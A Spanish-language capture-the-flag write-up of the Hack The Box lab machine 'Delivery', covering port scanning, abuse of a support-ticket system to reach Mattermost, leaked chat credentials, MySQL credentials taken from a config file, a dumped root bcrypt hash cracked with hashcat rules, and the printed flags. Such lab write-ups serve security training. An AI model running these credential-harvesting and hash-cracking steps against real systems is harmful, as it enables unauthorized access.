





## Información Básica

### Técnicas vistas

- Virtual Hosting Enumeration
- Abusing Support Ticket System
- Access to MatterMost
- Information Leakage
- Database Enumeration - MYSQL
- Cracking Hashes
- Playing with hashcat rules in order to create passwords
- Playing with sucrack to find out a user's password

### Preparación

- eJPT
- eWPT

***

## Reconocimiento

### Nmap

Iniciaremos el escaneo de **Nmap** con la siguiente línea de comandos:

```bash wrap=false
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.222 -oG nmap/allPorts 
```

| Parámetro           | Descripción                                                                                  |
| ------------------- | -------------------------------------------------------------------------------------------- |
| `-p-`               | Escanea **todos los puertos** (1-65535).                                                     |
| `--open`            | Muestra **solo puertos abiertos**.                                                           |
| `-sS`               | Escaneo **SYN** (rápido y sigiloso).                                                         |
| `--min-rate 5000`   | Envía al menos **5000 paquetes por segundo** para acelerar el escaneo.                       |
| `-vvv`              | Máxima **verbosidad**, muestra más detalles en tiempo real.                                  |
| `-n`                | Evita resolución DNS.                                                                        |
| `-Pn`               | Asume que el host está activo, **sin hacer ping** previo.                                    |
| `10.10.10.222`       | Dirección IP objetivo.                                                                       |
| `-oG nmap/allPorts` | Guarda la salida en formato **grepable** para procesar con herramientas como `grep` o `awk`. |

```txt wrap=false
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
80/tcp   open  http    syn-ack ttl 63
8065/tcp open  unknown syn-ack ttl 63
```

Ahora con la función **extractPorts**, extraeremos los puertos abiertos y nos los copiaremos al clipboard para hacer un escaneo más profundo:

```bash title="Función de S4vitar"
extractPorts () {
	ports="$(cat $1 | grep -oP '\d{1,5}/open' | awk '{print $1}' FS='/' | xargs | tr ' ' ',')" 
	ip_address="$(cat $1 | grep -oP '\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}' | sort -u | head -n 1)" 
	echo -e "\n[*] Extracting information...\n" > extractPorts.tmp
	echo -e "\t[*] IP Address: $ip_address" >> extractPorts.tmp
	echo -e "\t[*] Open ports: $ports\n" >> extractPorts.tmp
	echo $ports | tr -d '\n' | xclip -sel clip
	echo -e "[*] Ports copied to clipboard\n" >> extractPorts.tmp
	/bin/batcat --paging=never extractPorts.tmp
	rm extractPorts.tmp
}
```

```bash wrap=false
nmap -sVC -p22,80,8065 10.10.10.222 -oN nmap/targeted
```

| Parámetro           | Descripción                                                                          |
| ------------------- | ------------------------------------------------------------------------------------ |
| `-sV`               | Detecta la **versión** de los servicios que están corriendo en los puertos abiertos. |
| `-C`                | Ejecuta **scripts NSE de detección de versiones y configuración**.                   |
| `-p`                | Escanea únicamente los puertos seleccionados.                                        |
| `10.10.10.222`       | Dirección IP objetivo.                                                               |
| `-oN nmap/targeted` | Guarda la salida en **formato normal** en el archivo indicado.                       |

```txt wrap=false
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 9c:40:fa:85:9b:01:ac:ac:0e:bc:0c:19:51:8a:ee:27 (RSA)
|   256 5a:0c:c0:3b:9b:76:55:2e:6e:c4:f4:b9:5d:76:17:09 (ECDSA)
|_  256 b7:9d:f7:48:9d:a2:f2:76:30:fd:42:d3:35:3a:80:8c (ED25519)
80/tcp   open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Welcome
8065/tcp open  http    Golang net/http server
|_http-title: Mattermost
| http-robots.txt: 1 disallowed entry 
|_/
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 200 OK
|     Accept-Ranges: bytes
|     Cache-Control: no-cache, max-age=31556926, public
|     Content-Length: 3108
|     Content-Security-Policy: frame-ancestors 'self'; script-src 'self' cdn.rudderlabs.com
|     Content-Type: text/html; charset=utf-8
|     Last-Modified: Sat, 20 Sep 2025 09:58:13 GMT
|     X-Frame-Options: SAMEORIGIN
|     X-Request-Id: ihyhjhz9ni8puj43k334efo8uh
|     X-Version-Id: 5.30.0.5.30.1.57fb31b889bf81d99d8af8176d4bbaaa.false
|     Date: Sat, 20 Sep 2025 10:04:04 GMT
|     <!doctype html><html lang="en"><head><meta charset="utf-8"><meta name="viewport" content="width=device-width,initial-scale=1,maximum-scale=1,user-scalable=0"><meta name="robots" content="noindex, nofollow"><meta name="referrer" content="no-referrer"><title>Mattermost</title><meta name="mobile-web-app-capable" content="yes"><meta name="application-name" content="Mattermost"><meta name="format-detection" content="telephone=no"><link re
|   GenericLines, Help, RTSPRequest, SSLSessionReq: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Accept-Ranges: bytes
|     Cache-Control: no-cache, max-age=31556926, public
|     Content-Length: 3108
|     Content-Security-Policy: frame-ancestors 'self'; script-src 'self' cdn.rudderlabs.com
|     Content-Type: text/html; charset=utf-8
|     Last-Modified: Sat, 20 Sep 2025 09:58:13 GMT
|     X-Frame-Options: SAMEORIGIN
|     X-Request-Id: n33yaeq9xj8kzpcxbw51akrmkc
|     X-Version-Id: 5.30.0.5.30.1.57fb31b889bf81d99d8af8176d4bbaaa.false
|     Date: Sat, 20 Sep 2025 10:03:48 GMT
|     <!doctype html><html lang="en"><head><meta charset="utf-8"><meta name="viewport" content="width=device-width,initial-scale=1,maximum-scale=1,user-scalable=0"><meta name="robots" content="noindex, nofollow"><meta name="referrer" content="no-referrer"><title>Mattermost</title><meta name="mobile-web-app-capable" content="yes"><meta name="application-name" content="Mattermost"><meta name="format-detection" content="telephone=no"><link re
|   HTTPOptions: 
|     HTTP/1.0 405 Method Not Allowed
|     Date: Sat, 20 Sep 2025 10:03:48 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8065-TCP:V=7.95%I=7%D=9/20%Time=68CE7BF8%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x
SF:20Request")%r(GetRequest,DF3,"HTTP/1\.0\x20200\x20OK\r\nAccept-Ranges:\
SF:x20bytes\r\nCache-Control:\x20no-cache,\x20max-age=31556926,\x20public\
SF:r\nContent-Length:\x203108\r\nContent-Security-Policy:\x20frame-ancesto
SF:rs\x20'self';\x20script-src\x20'self'\x20cdn\.rudderlabs\.com\r\nConten
SF:t-Type:\x20text/html;\x20charset=utf-8\r\nLast-Modified:\x20Sat,\x2020\
SF:x20Sep\x202025\x2009:58:13\x20GMT\r\nX-Frame-Options:\x20SAMEORIGIN\r\n
SF:X-Request-Id:\x20n33yaeq9xj8kzpcxbw51akrmkc\r\nX-Version-Id:\x205\.30\.
SF:0\.5\.30\.1\.57fb31b889bf81d99d8af8176d4bbaaa\.false\r\nDate:\x20Sat,\x
SF:2020\x20Sep\x202025\x2010:03:48\x20GMT\r\n\r\n<!doctype\x20html><html\x
SF:20lang=\"en\"><head><meta\x20charset=\"utf-8\"><meta\x20name=\"viewport
SF:\"\x20content=\"width=device-width,initial-scale=1,maximum-scale=1,user
SF:-scalable=0\"><meta\x20name=\"robots\"\x20content=\"noindex,\x20nofollo
SF:w\"><meta\x20name=\"referrer\"\x20content=\"no-referrer\"><title>Matter
SF:most</title><meta\x20name=\"mobile-web-app-capable\"\x20content=\"yes\"
SF:><meta\x20name=\"application-name\"\x20content=\"Mattermost\"><meta\x20
SF:name=\"format-detection\"\x20content=\"telephone=no\"><link\x20re")%r(H
SF:TTPOptions,5B,"HTTP/1\.0\x20405\x20Method\x20Not\x20Allowed\r\nDate:\x2
SF:0Sat,\x2020\x20Sep\x202025\x2010:03:48\x20GMT\r\nContent-Length:\x200\r
SF:\n\r\n")%r(RTSPRequest,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConten
SF:t-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n
SF:400\x20Bad\x20Request")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r
SF:\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close
SF:\r\n\r\n400\x20Bad\x20Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x2
SF:0Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nCon
SF:nection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(FourOhFourRequest,DF
SF:3,"HTTP/1\.0\x20200\x20OK\r\nAccept-Ranges:\x20bytes\r\nCache-Control:\
SF:x20no-cache,\x20max-age=31556926,\x20public\r\nContent-Length:\x203108\
SF:r\nContent-Security-Policy:\x20frame-ancestors\x20'self';\x20script-src
SF:\x20'self'\x20cdn\.rudderlabs\.com\r\nContent-Type:\x20text/html;\x20ch
SF:arset=utf-8\r\nLast-Modified:\x20Sat,\x2020\x20Sep\x202025\x2009:58:13\
SF:x20GMT\r\nX-Frame-Options:\x20SAMEORIGIN\r\nX-Request-Id:\x20ihyhjhz9ni
SF:8puj43k334efo8uh\r\nX-Version-Id:\x205\.30\.0\.5\.30\.1\.57fb31b889bf81
SF:d99d8af8176d4bbaaa\.false\r\nDate:\x20Sat,\x2020\x20Sep\x202025\x2010:0
SF:4:04\x20GMT\r\n\r\n<!doctype\x20html><html\x20lang=\"en\"><head><meta\x
SF:20charset=\"utf-8\"><meta\x20name=\"viewport\"\x20content=\"width=devic
SF:e-width,initial-scale=1,maximum-scale=1,user-scalable=0\"><meta\x20name
SF:=\"robots\"\x20content=\"noindex,\x20nofollow\"><meta\x20name=\"referre
SF:r\"\x20content=\"no-referrer\"><title>Mattermost</title><meta\x20name=\
SF:"mobile-web-app-capable\"\x20content=\"yes\"><meta\x20name=\"applicatio
SF:n-name\"\x20content=\"Mattermost\"><meta\x20name=\"format-detection\"\x
SF:20content=\"telephone=no\"><link\x20re");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Whatweb

Usaremos **whatweb** para ver las tecnologías que se están usando:

```bash wrap=false
❯ whatweb http://10.10.10.222
http://10.10.10.222 [200 OK] Country[RESERVED][ZZ], Email[jane@untitled.tld], HTML5, HTTPServer[nginx/1.14.2], IP[10.10.10.222], JQuery, Script, Title[Welcome], nginx[1.14.2]
❯ whatweb http://10.10.10.222:8065
http://10.10.10.222:8065 [200 OK] Country[RESERVED][ZZ], HTML5, IP[10.10.10.222], Script, Title[Mattermost], UncommonHeaders[content-security-policy,x-request-id,x-version-id], X-Frame-Options[SAMEORIGIN]
```

### Puerto 80


Podemos ver que se usan dominios y `Virtual Hosting`, vamos a añadirlo al `/etc/hosts`.

### helpdesk.delivery.htb



Si creamos un nuevo ticket nos dará una correo que podremos usar en el puerto `8065`:



Al crearnos una cuenta nos enviará una verificación:



Si vamos a la parte para ver nuestros tickets y ponemos la ID incial que nos había dado, vemos el enlace de verificación:



### Mattermost

Una vez entremos podremos ver la siguiente conversación:



Por lo cual tendremos las siguientes credenciales `maildeliverer:Youve_G0t_Mail!` y obtendríamos la user flag:

```bash wrap=false title="SSH Login"
❯ ssh maildeliverer@10.10.10.222
maildeliverer@10.10.10.222's password: 
Linux Delivery 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Jan  5 06:09:50 2021 from 10.10.14.5
maildeliverer@Delivery:~$ ls
user.txt
maildeliverer@Delivery:~$ cat user.txt 
172aa93ef51449527e...
```

## Escalada de privilegios

Dentro del directorio `/opt/mattermost/config` podemos ver que en el `config.json` lo siguiente:

```json wrap=false
"SqlSettings": {
  "DriverName": "mysql",
  "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
  "DataSourceReplicas": [],
  "DataSourceSearchReplicas": [],
  "MaxIdleConns": 20,
  "ConnMaxLifetimeMilliseconds": 3600000,
  "MaxOpenConns": 300,
  "Trace": false,
  "AtRestEncryptKey": "n5uax3d4f919obtsp1pw1k5xetq1enez",
  "QueryTimeout": 30,
  "DisableDatabaseSearch": false
}
```

Estas credenciales son válidas para **MySQL**:

```bash wrap=false title="MySQL Login"
maildeliverer@Delivery:/opt/mattermost/config$ mysql -u mmuser -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 104
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> 
```

```bash wrap=false
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mattermost         |
+--------------------+
2 rows in set (0.000 sec)

MariaDB [(none)]> use mattermost
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [mattermost]> show tables;
+------------------------+
| Tables_in_mattermost   |
+------------------------+
| Audits                 |
| Bots                   |
| ChannelMemberHistory   |
| ChannelMembers         |
| Channels               |
| ClusterDiscovery       |
| CommandWebhooks        |
| Commands               |
| Compliances            |
| Emoji                  |
| FileInfo               |
| GroupChannels          |
| GroupMembers           |
| GroupTeams             |
| IncomingWebhooks       |
| Jobs                   |
| Licenses               |
| LinkMetadata           |
| OAuthAccessData        |
| OAuthApps              |
| OAuthAuthData          |
| OutgoingWebhooks       |
| PluginKeyValueStore    |
| Posts                  |
| Preferences            |
| ProductNoticeViewState |
| PublicChannels         |
| Reactions              |
| Roles                  |
| Schemes                |
| Sessions               |
| SidebarCategories      |
| SidebarChannels        |
| Status                 |
| Systems                |
| TeamMembers            |
| Teams                  |
| TermsOfService         |
| ThreadMemberships      |
| Threads                |
| Tokens                 |
| UploadSessions         |
| UserAccessTokens       |
| UserGroups             |
| UserTermsOfService     |
| Users                  |
+------------------------+
46 rows in set (0.001 sec)

MariaDB [mattermost]> select Password from Users where Username = 'root';
+--------------------------------------------------------------+
| Password                                                     |
+--------------------------------------------------------------+
| $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |
+--------------------------------------------------------------+
1 row in set (0.000 sec)
```

Con esto podremos obtener el **hash** del usuario `root`. En la conversación se mencionaba que la contraseña se podía romper con reglas de hashcat.

```txt title="password"
PleaseSubscribe!
```

```txt title="hash"
root:$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO
```

Y usaremos `hashcat` para crackearlo:

```bash wrap=false
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v...JwgjjO
Time.Started.....: Sat Sep 20 14:22:59 2025 (2 secs)
Time.Estimated...: Sat Sep 20 14:23:01 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (password)
Guess.Mod........: Rules (/usr/share/hashcat/rules/best64.rule)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       15 H/s (1.55ms) @ Accel:4 Loops:32 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 21/77 (27.27%)
Rejected.........: 0/21 (0.00%)
Restore.Point....: 0/1 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:20-21 Iteration:992-1024
Candidate.Engine.: Device Generator
Candidates.#1....: PleaseSubscribe!21 -> PleaseSubscribe!21
Hardware.Mon.#1..: Temp: 65c Util: 27%
```

Y ahí estaría:

```bash wrap=false
maildeliverer@Delivery:/opt/mattermost/config$ su root
Password: 
root@Delivery:/opt/mattermost/config# whoami
root
root@Delivery:/opt/mattermost/config# cat /root/root.txt 
626bcfbba4486a5b8398c8861cf9f055
```

[Pwned!](https://labs.hackthebox.com/achievement/machine/1992274/308)

---